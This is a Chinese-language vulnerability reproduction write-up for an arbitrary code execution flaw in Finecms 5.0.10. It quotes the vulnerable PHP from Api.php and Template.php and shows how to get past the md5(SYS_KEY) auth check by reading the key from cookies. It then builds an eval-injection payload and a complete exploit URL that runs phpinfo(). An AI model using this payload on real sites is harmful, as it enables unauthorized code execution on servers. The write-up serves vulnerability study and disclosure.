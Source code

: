 Finecms 5.0.10 任意代码执行漏洞
===============================

一、漏洞简介
------------

> auth值是由`zero_ci_session`中zero进行md5加密获取到的，无需登陆便有，且每个站点的站长会进行不同的自定义

二、漏洞影响
------------

Finecms 5.0.10

三、复现过程
------------

### 漏洞分析

这个漏洞的文件在`/finecms/dayrui/controllers/Api.php`的data2()

    public function data2() {
            $data = array();

            // 安全码认证
            $auth = $this->input->get('auth', true);
            if ($auth != md5(SYS_KEY)) {
                // 授权认证码不正确
                $data = array('msg' => '授权认证码不正确', 'code' => 0);
            } else {
                // 解析数据
                $cache = '';
                $param = $this->input->get('param');
                if (isset($param['cache']) && $param['cache']) {
                    $cache = md5(dr_array2string($param));
                    $data = $this->get_cache_data($cache);
                }
                if (!$data) {

                    // list数据查询
                    $data = $this->template->list_tag($param);
                    $data['code'] = $data['error'] ? 0 : 1;
                    unset($data['sql'], $data['pages']);

                    // 缓存数据
                    $cache && $this->set_cache_data($cache, $data, $param['cache']);
                }
            }

            // 接收参数
            $format = $this->input->get('format');
            $function = $this->input->get('function');
            if ($function) {
                if (!function_exists($function)) {
                    $data = array('msg' => fc_lang('自定义函数'.$function.'不存在'), 'code' => 0);
                } else {
                    $data = $function($data);
                }
            }

            // 页面输出
            if ($format == 'php') {
                print_r($data);
            } elseif ($format == 'jsonp') {
                // 自定义返回名称
                echo $this->input->get('callback', TRUE).'('.$this->callback_json($data).')';
            } else {
                // 自定义返回名称
                echo $this->callback_json($data);
            }
            exit;

        }

可以看到开头这里验证了认证码：

    // 安全码认证
        $auth = $this->input->get('auth', true);
        if ($auth != md5(SYS_KEY)) {
            // 授权认证码不正确
            $data = array('msg' => '授权认证码不正确', 'code' => 0);
        } else {

授权码在`/config/system.php`

![](./.resource/Finecms5.0.10任意代码执行漏洞/media/rId25.png)可以看到SYS\_KEY是固定的，我们可以在Cookies找到，`/finecms/dayrui/config/config.php`

![](./.resource/Finecms5.0.10任意代码执行漏洞/media/rId26.png)

用浏览器查看Cookies可以看到KEY，但是验证用MD5，我们先把KEY加密就行了。

![](./.resource/Finecms5.0.10任意代码执行漏洞/media/rId27.png)

直接看到这一段，调用了Template对象里面的list\_tag函数

    if (!$data) {

        // list数据查询
        $data = $this->template->list_tag($param);
        $data['code'] = $data['error'] ? 0 : 1;
        unset($data['sql'], $data['pages']);

        // 缓存数据
        $cache && $this->set_cache_data($cache, $data, $param['cache']);
    }

我们到`finecms/dayrui/libraries/Template.php`看list\_tag函数的代码,代码有点长，我抓重点的地方,这里把`param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271`的内容分为两个数组\$var、\$val，这两个数组的内容分别为

    $var=['action','name']
    $val=['cache%20','MEMBER.1%27];phpinfo();$a=[%271']

\$cache=\_cache\_var是返回会员的信息 重点的是下面的
`@eval('$data=$cache'.$this->_get_var($_param).';');`

    foreach ($params as $t) {
                $var = substr($t, 0, strpos($t, '='));
                $val = substr($t, strpos($t, '=') + 1);

再看这一段,因为swtich选中的是cache，所有就不再进行下面的分析了。
`$pos = strpos($param['name'], '.');`这句是为下面的substr函数做准备。
是为了分离出的内容为

    $_name='MEMBER'
    $_param="1%27];phpinfo();$a=[%271"
    // action
            switch ($system['action']) {

                case 'cache': // 系统缓存数据
                    if (!isset($param['name'])) {
                        return $this->_return($system['return'], 'name参数不存在');
                    }

                    $pos = strpos($param['name'], '.');
                    if ($pos !== FALSE) {
                        $_name = substr($param['name'], 0, $pos);
                        $_param = substr($param['name'], $pos + 1);
                    } else {
                        $_name = $param['name'];
                        $_param = NULL;
                    }
                    $cache = $this->_cache_var($_name, !$system['site'] ? SITE_ID : $system['site']);
                    if (!$cache) {
                        return $this->_return($system['return'], "缓存({$_name})不存在，请在后台更新缓存");
                    }
                    if ($_param) {
                        $data = array();
                        @eval('$data=$cache'.$this->_get_var($_param).';');
                        if (!$data) {
                            return $this->_return($system['return'], "缓存({$_name})参数不存在!!");
                        }
                    } else {
                        $data = $cache;
                    }

                    return $this->_return($system['return'], $data, '');
                    break;

跟踪get\_var函数，在这里我们先把\$param的内容假设为a,然后执行函数里面的内容，最后返回的\$string的内容是：

    $string=['a']

那么我们的思路就是把两边的\[\' \'\]闭合然后再放上恶意的代码。
payload为：`1'];phpinfo();$a=['1 `那么返回的\$string的内容：

    $string=['1'];phpinfo();$a=['1']

### 漏洞复线

    http://0-sec.org/index.php?c=api&m=data2&auth=目标站点的值&param=action=cache%20name=MEMBER.1%27];phpinfo();$a=[%271

![](./.resource/Finecms5.0.10任意代码执行漏洞/media/rId29.png)
